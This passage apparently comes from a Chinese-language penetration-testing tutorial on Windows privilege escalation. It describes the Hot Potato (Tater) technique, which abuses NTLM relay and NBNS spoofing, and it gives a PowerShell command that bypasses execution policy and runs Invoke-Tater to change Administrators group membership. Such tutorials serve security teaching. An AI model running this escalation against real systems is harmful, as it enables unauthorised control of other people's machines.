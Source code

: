 管理员登录

![](img/f202359333ff7335b3118f660be4ad21.png)

管理员登录后立即执行有效负载。

## 马铃薯/烫手山芋🔥

烫手山芋(又名:土豆)利用 Windows 中的已知问题来获取默认配置中的本地权限提升，即 NTLM 中继(特别是 HTTP->SMB 中继)和 NBNS 欺骗

你可以在这里阅读更多关于这个漏洞的信息。

我们增加了很多用户。让我们用管理员权限删除其中一个。

![](img/4f9b0bac3cd8fa36b5b7c7fa75639434.png)

管理组内部的后门用户

```
powershell -exec Bypass -c ". .\Tater.ps1;Invoke-Tater -Trigger 1 -Command 'net localgroup administrators backdoor /delete';"
```
